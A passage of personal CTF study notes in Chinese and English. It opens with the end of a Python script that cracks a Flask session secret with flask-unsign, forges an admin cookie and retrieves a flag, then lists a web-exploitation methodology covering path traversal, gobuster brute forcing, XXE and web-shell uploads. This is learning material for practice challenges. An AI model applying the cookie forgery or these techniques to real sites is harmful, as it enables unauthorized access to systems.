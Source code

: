         F.close()

        # convert
        secret = run(f"flask-unsign --unsign --cookie {cookie} --wordlist ./wordlist.txt").stdout
        payload = "\"{'very_auth':'admin'}\""
        sign = run(f"flask-unsign --sign --cookie {payload} --secret {secret}").stdout

        # Send cookies to website
        cookies = dict(session=sign[:-1])
        response = requests.get(url, cookies=cookies)
        soup = BeautifulSoup(response.text, "html.parser")

        # Retreive flag from page
        flag = soup.select("body > div.container > div.jumbotron > p:nth-child(2)")[0]
        print(flag.get_text())
        ```

# useful vocab
- privilege
- RBAC（Role-Based Access Control，基于角色的访问控制）
- audit 审核
- exploit 恶意利用
- Breach 破坏/违规/突破
- Phishing 网络钓鱼
- tier 层级
- segregation 分隔

# other
- firefox的开发者工具有些奇怪，有时候不会显示图片和css的source，用chrome好些
- 对于path的过滤，如果不知道背后的过滤逻辑，就得尝试各种看起来自相矛盾的测试，比如可以../flag.txt但不能../../aaa/flag.txt
- md，命名格式啥的也很重要，我们要有创造力，admin.phps昭示着可能的index.phps
- 读源码的技巧：
    - 检查所有import、include、fetch、`./xxxx`之类的访问文件的语句，这样或许会暴露更多信息
    - 检查入口出口、判断语句、错误处理


# Methodology
1. 找可用之处
    - path traversal
        - 先手动找常见的path
            - robots.txt
            - .git
            - index.php
        - 然后gobuster找热门wordlists来BF寻找
            - wordlist: SecLists/Discovery/Web-Content/common.txt，或者就在桌面的wordlists里
    - 看源码
        - 不止html，还包括css和js的源码
    - 抓包
        - jwt、任何神秘json
2. 根据反馈尝试expliot
    - 有事没事都base64一下任何奇怪的乱码
    - 现在见过的例子：
        - common sense: 
            - 简单到只要根据文字意思修改http header就行
            - 恶心的CBC
        - XXE：抓包发现POST可以根据包地格式XXE
        - web shell：robots.txt发现了/instruction描述验证方法和/uploads/文件夹供上传文件的访问以此web shell 